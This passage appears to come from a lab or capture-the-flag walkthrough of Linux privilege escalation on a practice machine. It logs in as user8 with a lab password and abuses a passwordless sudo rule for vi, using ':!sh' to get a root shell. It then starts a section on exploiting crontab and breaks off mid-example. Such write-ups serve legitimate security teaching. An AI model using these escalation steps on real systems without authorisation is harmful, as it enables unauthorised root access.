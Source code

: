 #### First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"
```bash
root@polobox:/home/user3# exit
exit
user7@polobox:/home/user3$ su user8
Password: 
Welcome to Linux Lite 4.4 user8
 
Monday 11 January 2021, 01:02:32
Memory Usage: 333/1991MB (16.73%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user8@polobox:/home/user3$
```

#### Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?
```bash
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

#### So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.
```bash
user8@polobox:/home/user3$ sudo vi
```

#### Now, type ":!sh" to open a shell!
```bash
user8@polobox:/home/user3$ sudo vi

# whoami
root
```

## Exploiting Crontab
- The Cron daemon is a long-running process that executes commands at specific dates and times.
- You can use this to schedule activities, either as one-time events or as recurring tasks. 
- You can create a crontab file containing commands and instructions for the Cron daemon to execute.
- We can use the command "`cat /etc/crontab`" to view what cron jobs are scheduled.
- Cronjobs format:
    ```bash
    #  m   h dom mon dow user  command
    17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
